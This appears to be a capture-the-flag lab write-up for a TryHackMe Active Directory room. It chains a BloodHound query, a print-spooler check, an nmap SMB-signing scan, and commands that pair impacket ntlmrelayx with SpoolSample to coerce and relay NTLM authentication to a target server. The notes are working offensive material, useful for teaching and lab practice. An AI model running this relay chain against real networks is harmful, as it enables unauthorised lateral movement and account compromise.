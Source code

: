 # Exploiting automated relay

```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Check print spooler

```
PS C:\> GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc


Location      :
Name          : Microsoft XPS Document Writer
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2

Location      :
Name          : Microsoft Print to PDF
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2

```

```
# Check SMS Signing

thm@thm:~# nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
Nmap scan report for distributor.za.tryhackme.loc (172.31.1.201)
Host is up (0.62s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required

Nmap scan report for 172.31.1.202
Host is up (0.38s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 4.59 seconds
```

## Exploiting Authentication Relays

attacker&#x20;

```
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

or

```
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug

```

victim

```
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

